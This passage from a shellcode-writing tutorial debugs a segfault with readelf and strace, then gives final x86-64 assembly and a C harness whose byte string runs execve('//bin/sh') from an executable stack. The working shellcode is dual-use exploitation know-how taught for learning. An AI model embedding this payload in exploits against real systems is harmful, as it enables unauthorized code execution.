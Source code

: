 If we compile the code (e.g., using `gcc testsc.c -o testsc`) and try to run it, we will get a `segmentation fault` (at least on modern kernels). This error is due to the fact, that the stack is (typically) marked as non-executable. To check this use the command `readelf -l testsc`. In the output search for the line `GNU_STACK` where in the column `Flags` you find `RW`. Compiling the code with the option `-z execstack`, will make the stack executable (Flag: `RWE`).

Running the re-compiled executable again returns a `segmentation fault`. This time we look at the problem using `strace` that traces system calls and signals of an executable. The output of the command `strace testsc` includes the following lines:

```
...
execve("//bin/sh", ["./testsc"], 0x7fffffffde10 /* 12 vars */) = -1 EFAULT (Bad address)
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x47} ---
+++ killed by SIGSEGV (core dumped) +++
...
```

The first line of the cutout shows that the syscall `execve` was correctly called with the parameter `//bin/sh`, but that somehow the third parameter of the call (`0x7fffffffde10`) seems to be strange. Looking for information about the parameters of system calls, for example on [1], shows that the third parameter is supposed to be a pointer to an array of strings for the environment. Since the third parameter of function calls on a x86-64 processor is handed over in register `rdx`, it seems as if the register has been used by our test program in an unintended way.

In order to resolve the issue, we fix our shellcode by xor-ing `rdx` with itself before calling `execve`, thereby resetting the `rdx` register to `Null`. We thus modify our assembly code as follows (`shellcode.asm`):
```
section .text
global _start
_start:
	xor		rax, rax
	push	rax
	mov		rbx, 0x68732f6e69622f2f
	push	rbx
	mov		al, 59
    xor     rdx, rdx
	mov		rdi, rsp
	syscall
```

Doing the same as described before, we compile the assembly code and extract the corresponding op-codes to get to our final test program (file `testsc.c`):
```
#include <stdlib.h>

int main() 
{
    char shellcode[] = "\x48\x31\xC0\x50\x48\xBB\x2F\x2F"
                   "\x62\x69\x6E\x2F\x73\x68\x53\xB0"
                   "\x3B\x48\x31\xd2\x48\x89\xE7\x0F"
                   "\x05\x90\x90\x90\x90\x90\x90\x90";

    int (*func)();
    func = (int (*)()) shellcode;
    (*func)();
}

```

